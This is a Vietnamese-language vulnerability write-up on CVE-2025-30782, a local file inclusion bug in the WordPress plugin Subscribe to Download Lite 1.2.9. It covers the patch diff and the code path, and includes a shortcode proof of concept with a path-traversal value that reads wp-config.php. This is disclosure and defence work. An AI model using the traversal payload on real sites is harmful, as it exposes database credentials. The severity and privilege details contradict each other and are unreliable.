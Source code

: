 # CVE-2025-30782 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **Subscribe to Download Lite** phiên bản **≤ 1.2.9** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-30782](https://www.cve.org/CVERecord?id=CVE-2025-30782)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.2.9
* **Patched Versions**: 1.3.0
* **CVSS severity**: Low (7.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Subscribe to Download Lite Plugin](https://wordpress.org/plugins/subscribe-to-download-lite/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Subscribe to Download Lite**: **1.2.9** (vulnerable) và **1.3.0** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```phtml {filename="form-template.php v1.2.9" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">
        <?php
        do_action('stdl_before_form', $form_details);

        if (file_exists(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php')) {
            include(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php');
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

Trong phiên bản lỗi, `$form_template` được concat vào chuỗi và include nhưng không xác thực giá trị đầu vào => nguy cơ LFI xảy ra, ví dụ:

```php
$form_template = '../../../../../../../wp-config'
```

**Bản vá**:

```phtml {filename="form-template.php v1.3.0" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">

        <?php
        do_action('stdl_before_form', $form_details);

        $base_dir = realpath(STDL_PATH . 'inc/views/frontend/form-templates') . DIRECTORY_SEPARATOR;
        $sanitized_template = basename($form_template) . '.php';
        $file_path = realpath($base_dir . $sanitized_template);

        if ($file_path && strpos($file_path, $base_dir) === 0 && file_exists($file_path)) {
            include($file_path);
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

Bản vá sử dụng [`basename()`](https://www.php.net/manual/en/function.basename.php) để lấy phần tên file của `$form_template` loại bỏ các ký tự traversal sequence `../`, ví dụ:

```py
../../../../../../payload.pdf -> payload.pdf
```

Sau đó concat vào `$base_dir` và lấy đường dẫn tuyệt đối bằng [`realpath`](https://www.php.net/manual/en/function.realpath.php) rồi `include()` => triệt tiêu hoàn toàn khả năng **LFI**.
 
### Vulnerable Code 
`form-template.php` chứa code có lỗ hổng ở trên được gọi trong `stdl-shortcode.php`

```phtml {filename="stdl-shortcode.php v1.2.9" hl_lines=[8, 18]}
<?php
$form_template = (!empty($atts['template'])) ? $atts['template'] : $form_details['layout']['template'];
if (isset($_COOKIE['stdl_encryption_key']) && $this->check_if_already_subscribed($_COOKIE['stdl_encryption_key']) && empty($form_details['general']['always_show'])) {
    // other logic
} else {
    // other logic
    if ($display_type == 'direct') {
        include(STDL_PATH . 'inc/views/frontend/form-template.php');
    } else {
        ?>
        <div class="stdl-popup-outerwrap <?php echo esc_attr($popup_alias_class); ?>">
            <input type="button" class="stdl-popup-trigger stdl-popup-<?php echo esc_attr($form_template); ?>" value="<?php echo esc_attr($popup_trigger_text); ?>">
            <div class="stdl-popup-innerwrap" style="display:none;">
                <div class="stdl-overlay stdl-popup-wrapper">

                    <div class="stdl-popup-contetn-wrap">
                        <a href="javascript:void(0)" class="stdl-popup-close"><i class="fas fa-times"></i></a>
                            <?php include(STDL_PATH . 'inc/views/frontend/form-template.php');
                            ?>
                    </div>
                </div>
            </div>
        </div>
        <?php
    }
}
```

`$form_template` là giá trị của `$atts['template']`

Theo kinh nghiệm phân tích CVE trên WordPress plugin của tôi, `$atts` thường là các attribute của shortcode, ví dụ:

```
[pornhub id=69]
```

Có thể thấy rằng file `form-template.php` **luôn được include** trong khối `if-else` nằm bên trong phần `else`, **khi cookie `stdl_encryption_key` không tồn tại** (tức là người dùng chưa đăng ký hoặc chưa có khóa mã hóa hợp lệ).

`stdl-shortcode.php` được `include` trong callback của shortcode `subscribe_to_download_form` với `atts` là mảng các attribute của shortcode.

```php {filename="class-stdl-shortcode.php v1.2.9" hl_lines=[2,8]}
function __construct() {
    add_shortcode('subscribe_to_download_form', array($this, 'generate_shortcode_output'));
}

function generate_shortcode_output($atts) {
    wp_enqueue_style('stdl-frontend-custom', STDL_CSS_DIR . '/stdl-custom.css', array(), STDL_VERSION);
    ob_start();
    include(STDL_PATH . 'inc/views/frontend/stdl-shortcode.php');
    $form_html = ob_get_contents();
    ob_clean();
    return $form_html;
}
```

## Exploit
### Proof of Concept (PoC)

#### Step 1

Đăng nhập vào WordPress bằng tài khoản Contributor có đặc quyền thấp nhất để tạo post.

#### Step 2

Tạo post với shortcode

```shortcode
[subscribe_to_download_form template='../../../../../../../wp-config']
```

**Result**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

Phiên bản **≤ 1.2.9** của Subscribe to Download Lite cho phép LFI vì `include()` dùng `$atts['template']` chưa được xác thực; lỗ hổng đã được vá trong **1.3.0** bằng `basename()` + `realpath()` và kiểm tra `base_dir`. Cập nhật ngay.

## Key takeaways

* Input từ shortcode không được tin cậy — không include trực tiếp.
* Patch (v1.3.0) dùng `basename()` + `realpath()` + so sánh với thư mục cho phép.
* Hành động: cập nhật plugin, whitelist/validate attributes.
* Giám sát logs cho ký tự `../` trong tham số template.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Subscribe to Download Lite Plugin <= 1.2.9 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/subscribe-to-download-lite/vulnerability/wordpress-subscribe-to-download-lite-plugin-1-2-9-local-file-inclusion-vulnerability?_s_id=cve)

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-16-cve-2025-30782/  

